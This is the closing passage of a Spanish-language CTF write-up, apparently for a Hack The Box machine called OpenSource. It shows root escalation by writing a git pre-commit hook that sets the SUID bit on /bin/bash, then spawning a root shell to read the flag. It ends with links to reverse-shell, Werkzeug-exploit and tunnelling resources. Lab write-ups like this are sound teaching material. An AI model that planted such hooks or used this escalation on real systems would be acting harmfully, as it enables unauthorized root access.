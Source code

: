 Resulta que hay una forma de abusar de estos, la puedes encontrar aquí: <a href="https://gtfobins.github.io/gtfobins/git/" target="_blank">GTFOBins: git</a>

Vamos a crear un hook que cambie los permisos de la **Bash**:
```bash
dev01@opensource:~/.git/hooks$ echo 'chmod u+s /bin/bash' > "pre-commit"
```

Revisa los permisos de la **Bash**:
```bash
dev01@opensource:~/.git/hooks$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
```

Dale permisos de ejecución al hook:
```bash
dev01@opensource:~/.git/hooks$ chmod +x pre-commit
```

Ahora, revisa si cambiaron los permisos de la **Bash**:
```bash
dev01@opensource:~/.git/hooks$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
```

Excelente, ya solo entramos a la **Bash** y obtenemos la flag:
```bash
dev01@opensource:/$ bash -p
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# ls
config  meta  root.txt  snap
bash-4.4# cat root.txt
...
```

Hemos terminado la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.revshells.com/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#werkzeug-console-pin-exploit
* https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py
* https://linuxhandbook.com/scan-ports-netcat/
* https://github.com/jpillora/chisel/releases
* https://es.wikipedia.org/wiki/Gitea
* https://github.com/DominicBreuker/pspy
* https://www.atlassian.com/es/git/tutorials/git-hooks
* https://gtfobins.github.io/gtfobins/git/
